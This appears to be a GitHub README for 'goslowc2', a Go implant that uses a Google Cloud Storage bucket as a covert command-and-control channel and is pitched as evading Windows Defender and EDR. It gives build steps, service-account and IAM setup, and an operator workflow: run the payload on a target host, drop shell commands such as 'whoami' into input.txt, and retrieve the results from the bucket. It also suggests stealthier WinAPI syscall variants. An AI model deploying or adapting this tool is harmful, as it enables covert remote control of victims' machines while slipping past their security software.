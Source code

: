# goslowc2
A demonstration of using GoLang and GCP Storage for a quick and easy evasion payload.

### Why?
1. Found GoLang is not as widely supported for reverse engineering tools without plugins or some tuning which also infers that EDR platforms haven't caught up as much either
2. GoLang allows the advantage of scripting language but the performance of a compiled language because you can 'go build foo.go' something
3. Google Cloud Platform (GCP) Storage SDK automatically allows for authentication TLS v1.2 secure endpoints and a scratch pad for input and output for easy asynchronous communication
4. Running GoLang os.exec and the syscall.call methods to unsafe (non type casted) unsigned integer pointers C style for interesting Windows 10/11 Q4 2022 Defender default 'evasion' shell or additional payload routines vs. the C running the system method that immediately triggers a backdoor alert and cloud scan
5. General grudge: Google SOC sent me a nasty gram about my C payload stored in my personal Google Drive account. GoLang was made by Google Developers. I wanted to make it ironic because this would have been so much easier using a packer + python3.
6. Maybe you don't have access to the standard MSF multi/handler in a pen test?

### Complementing gowrap module
This module is to demonstrate using os.exec to wrap and execute another Go script or binary as a subprocess which easily can trigger an IOC but also allows for easy ingestion (with some modification) of running input.txt with straight GoLang WinAPI sys calls for future "evasion" considerations. I also included notes about some strange behaviors found when using user32.dll MessageBoxA.


## Code Setup
go mod init goslowc2/main
go get cloud.google.com/storage
go build goslowc2

## GCP Storage bucket setup

    gsutil mb gs://BUCKET_NAME
    
    gcloud iam service-accounts create SA_NAME \
        --description="DESCRIPTION" \
        --display-name="DISPLAY_NAME"
    
    gcloud projects add-iam-policy-binding PROJECT_ID \
        --member="serviceAccount:SA_NAME@PROJECT_ID.iam.gserviceaccount.com" \
        --role="ROLE_NAME"
    
For CLI need to create YAML for the permissions to bind to a role

    title: goslow-role  
    description: foo  
    stage: GA  
    includedPermissions:  
    -  storage.objects.create  
    -  storage.objects.get   

Create the role at the project level

    gcloud iam roles create role-id --project=project-id \
        --file=yaml-file-path

Bind the role to the service account

    gcloud iam service-accounts add-iam-policy-binding \  SA_NAME@PROJECT_ID.iam.gserviceaccount.com \  --member="user:USER_EMAIL"  \  --role="roles/iam.serviceAccountUser"

Grab a JSON key to download and run in the same directory as goslowc2

    gcloud iam service-accounts keys create KEY_FILE \
        --iam-account=SA_NAME@PROJECT_ID.iam.gserviceaccount.com

## Using the C2 Channel
1. Create a input.txt in the root namespace of your **bucket** with a single command syntax such as "whoami" or "dir"
2. Run goslowc2.exe on targethost
3. Wait for the output.txt to show up in your bucket in the same root namespace
4. gsutil cp gs://YOURBUCKET/*.txt ./
5. cat ./output.txt
6. echo "whoami" > input.txt
7. gsutil cp ./input.txt gs://YOURBUCKET


## Runtime
**IMPORTANT**: Be sure to modify any variables in the code before building as the initial values are for demo purposes only

    cp <yourserviceaccountkey.json> ./
    go build goslowc2.go
    goslowc2.exe #this is going to be your payload running on target host

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime2.png?raw=true)

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime1.png?raw=true)

## Notes
**DISCLAIMER**: The author is NOT responsible for misuse or abuse of this educational source
// goslowc2 is a demo payload execution for using GCP Storage bucket and objects as the C2 mechanism the time of development Q4 2022 windows defender did not trigger the OS.exec method unless functions were stripped at build time

// For stealthier payload consider using my complement consider using direct WinAPI syscalls converting to unsigned integer pointers

// Author: Dennis Chow dchow[AT]xtecsystems.com 11/20/2022

// Requirements: GCP storage bucket and service account credential foo.json in the same runtime directory

// Confirmed working on GoLang 1.18.4 and GCP Storage SDK 1.28.0
